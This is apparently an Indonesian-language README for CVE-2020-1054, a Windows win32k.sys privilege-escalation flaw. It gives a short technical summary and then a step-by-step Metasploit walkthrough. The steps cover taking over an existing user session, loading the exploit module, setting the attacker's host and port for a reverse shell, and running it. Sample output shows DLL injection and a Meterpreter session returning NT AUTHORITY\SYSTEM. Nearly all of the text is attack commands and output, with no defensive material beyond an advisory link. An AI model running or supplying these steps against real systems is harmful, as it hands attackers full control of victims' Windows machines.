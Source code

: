 # CVE-2020-1054

## A. Apa itu CVE-2020-1054?

[CVE-2020-1054](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1054) adalah kerentanan Local Privilege Escalation (LPE) pada driver kernel Windows, yaitu `win32k.sys`. Kerentanan ini memungkinkan penyerang yang telah mendapatkan akses sebagai user biasa untuk mengeksekusi kode arbitrer dalam mode kernel dan memperoleh hak akses tertinggi di sistem (`NT AUTHORITY\SYSTEM`).

Eksploitasi ini terjadi karena kurangnya validasi dalam manipulasi koordinat memori pada objek `tagWND` melalui fungsi `ScrollWindowEx`, yang memungkinkan `write-what-where primitive` di kernel space. Modul eksploit di Metasploit memanfaatkan kelemahan ini melalui fungsi `DrawIconEx`.

## B. Detail Teknis:

- CVE ID: `CVE-2020-1054`
- Tanggal Rilis: `12 Mei 2020`
- Jenis: Local Privilege Escalation (LPE)
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-1054`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit CVE-2020-1054:

   ```
   msf6 > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] Running automatic check ("set AutoCheck false" to disable)
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [+] The target appears to be vulnerable.
   [*] Executing exploit...
   [*] Launching netsh to host the DLL...
   [+] Process 1204 launched.
   [*] Reflectively injecting the DLL into 1204...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 22 opened (192.168.1.42:4444 -> 192.168.1.50:49181) at 2025-05-14 18:38:33 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
